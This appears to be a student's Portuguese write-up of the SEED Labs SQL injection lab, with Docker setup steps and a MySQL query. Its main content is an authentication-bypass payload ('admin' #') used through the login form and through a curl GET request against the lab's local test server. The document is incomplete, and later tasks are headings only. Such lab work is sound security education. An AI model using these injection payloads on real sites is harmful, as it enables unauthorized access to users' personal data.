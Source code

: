 # SQL Injection Attack

## Setup

```bash
sudo nano etc/hosts # colocar '10.9.0.5 www.seed-server.com'
$ dcbuild # docker-compose build
$ dcup # docker-compose up
$ docksh f3 # Abrir uma shell no MySQL container
```

## Tasks

### Task 1: Get Familiar with SQL Statements

```bash
$ mysql -u root -pdees
$ use sqllab_users;
```

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

![Task 1](../img/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Aceder ao site "www.seed-server.com".

A query é frágil neste segmento

```sql
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

A password é hashed mas o nome não. Basta colocar admin e comentar a segunda parte, obtendo assim acesso às credenciais de todos os utilizadores

```note
username: admin' #
```

![Task 2 a](../img/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Usamos o mesmo comando mas através de um pedido GET. Um exemplo seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, cifrado (%27 é plica, %23 é o hastag).

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Com o comando anterior obtivemos o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../img/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

### Task 3: SQL Injection Attack on UPDATE Statement

